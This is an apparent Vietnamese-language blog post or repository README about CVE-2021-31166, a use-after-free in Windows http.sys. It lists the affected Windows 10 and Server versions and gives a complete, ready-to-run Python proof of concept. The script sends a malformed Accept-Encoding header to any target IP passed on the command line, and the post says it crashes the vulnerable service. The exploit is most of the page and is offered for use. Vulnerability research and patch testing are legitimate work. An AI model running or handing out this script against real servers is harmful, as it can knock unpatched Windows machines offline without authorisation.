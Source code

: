 ```yaml
---
title: CVE-2021-31166
date: 16/6/2021
layout: single
header:
  teaser: /assets/images/CVE-2021-24146.PNG
--- 
```

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

---


## Mô Tả 

Đây là bằng chứng về khái niệm cho CVE-2021-31166 ("Lỗ hổng thực thi mã từ xa của ngăn xếp giao thức HTTP"), một điểm truy cập sử dụng sau khi miễn phí trong `http.sys` được Microsoft vá vào tháng 5 năm 2021.

Theo như tôi biết, nó chỉ có thể kích hoạt chương trình bị lỗi, hãy sử dụng nó một cách thận trọng.

--- 
## Các nền tảng bị ảnh hưởng 
+ Windows Server, version 20H2 (Server Core Installation)

+ Windows 10 Version 20H2 for ARM64-based Systems

+ Windows 10 Version 20H2 for 32-bit Systems

+ Windows 10 Version 20H2 for x64-based Systems

+ Windows Server, version 2004 (Server Core installation)

+ Windows 10 Version 2004 for x64-based Systems

+ Windows 10 Version 2004 for ARM64-based Systems

+ Windows 10 Version 2004 for 32-bit Systems

# Demo
![demo](https://raw.githubusercontent.com/0vercl0k/CVE-2021-31166/main/pics/trigger.gif)
## Python

---
```python 
# python file.py --target=ip
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('PoC for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()

```

---

## Thanks :D
